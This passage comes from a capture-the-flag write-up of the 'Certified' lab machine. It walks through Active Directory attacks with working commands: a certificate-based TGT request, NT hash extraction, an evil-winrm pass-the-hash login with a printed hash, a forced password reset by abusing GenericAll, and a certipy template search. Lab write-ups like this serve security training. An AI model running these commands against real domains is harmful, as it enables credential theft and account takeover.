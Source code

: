 ![Pic]({{ '/assets/img/certified/11pic.png' | relative_url }}){: .center-image }

As we can see in the picture, we got 2 new files. The output itself show us how can we use these files to get a TGT using [PKINITtools](https://github.com/dirkjanm/PKINITtools).

```sh
python3 gettgtpkinit.py -cert-pem key_cert.pem -key-pem key_priv.pem -dc-ip 10.10.11.41 certified.htb/management_svc dc.ccache
```

![Pic]({{ '/assets/img/certified/12pic.png' | relative_url }}){: .center-image }

```sh
export KRB5CCNAME=$(pwd)/dc.ccache
```

Finally, with the **getnthash.py** tool we can obtain the nt hash of the management\_svc user giving to it the tgt.

```sh
python3 getnthash.py -key 44d3f61c0a38d09625ea6ad603889f49b617f0e318ca9e6189070a6d78a7e632 certified.htb/management_svc
```

![Pic]({{ '/assets/img/certified/13pic.png' | relative_url }}){: .center-image }

We could check if the management\_svc user is in the "Remote Management Users" to connect us to the machine using **evil-winrm** but as we saw in bloodhound, we are in the group so lets connect.

```sh
evil-winrm -i 10.10.11.41 -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
```

![Pic]({{ '/assets/img/certified/14pic.png' | relative_url }}){: .center-image }

## Privilege Escalation

Once we are in the machine, we can use [Certify.exe](https://github.com/ly4k/Certipy) to search for vulnerable certificates. If we also try **certipy.py** (the python version) with the judith credentials we wont find anything interesting. If we check BloodHound, we can see that the management\_svc user has "GenericAll" or Full Control over the ca\_operator user. The easiest way to abuse this is changing his password.

```powershell
Set-ADAccountPassword -Identity "ca_operator" -NewPassword (ConvertTo-SecureString "pass123" -AsPlainText -Force) -Reset
```

This user is not member of "Remote Management Users" so we cant connect to the machine using evil-winrm.
We can try to run certipy again with the ca\_operator user.

```sh
certipy find -u ca_operator -p pass123 -dc-ip 10.10.11.41
```

This command will generate 2 files, you can open whatever you want and you will find a vulnerable template.
